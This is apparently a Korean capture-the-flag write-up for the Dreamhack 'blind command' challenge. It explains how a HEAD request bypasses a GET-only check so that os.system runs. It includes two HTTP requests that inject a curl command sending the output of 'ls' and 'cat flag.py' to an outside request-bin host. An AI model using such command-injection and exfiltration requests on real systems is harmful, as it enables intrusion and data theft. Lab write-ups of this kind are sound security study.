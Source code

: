 ## 📍blind command

```
Read the flag file XD
```


![](../../Attachments/7E814FC8-CFF4-4D67-8FF6-0BAF0725AE57.png)

![](../../Attachments/3A5D69F6-5307-43B4-8303-0E3C91B67296.png)

`[cmd]` 부분을 그대로 출력한다.


#### 소스코드

![](../../Attachments/03D52CB1-EA39-4C7F-9518-F9BC0D2CA848.png)

GET 요청만 허락하면서 GET 요청이 아니어야 `os.system(cmd)` 함수가 실행되는 괴상한 코드이다.

OPTIONS 메소드로 요청을 보내보면
GET, HEAD, OPTIONS 메소드는 허용된다.
![](../../Attachments/BFA9628F-F98F-42A2-98EB-549D67BCEE1D.png)
![](../../Attachments/EE8B758B-43FF-4CD3-8879-497F78C28951.png)
![](../../Attachments/CD98C281-DA84-43DA-ABD9-16276683C344.png)

OPTIONS 메소드는 지원되는 메소드를 확인할 때만 사용하므로 남은 건 HEAD 뿐이다.
**HEAD** 메소드는 리소스를 GET으로 요청했을 때 응답으로 오는 헤더 부분만 요청하는 메소드이다.


#### Burp Suite
드림핵 툴즈에서 생성한 URL로 `ls` 커맨드를 실행하는 HEAD 요청을 보냈다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(ls)%22 HTTP/1.1
```

![](../../Attachments/D7436335-FEE3-4136-B16B-2AB922C7878B.png)

`ls` 명령 결과가 나타난다.
`flag.py` 파일이 존재하는 것을 알 수 있다.

![](../../Attachments/2243164D-757D-4C8F-982B-3BAC0907681F.png)

`cat flag.py` 커맨드를 수행하는 요청을 전송한다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(cat%20flag.py)%22 HTTP/1.1
```

![](../../Attachments/5F15C2A8-C9A2-4068-9E55-D99B74AE58E2.png)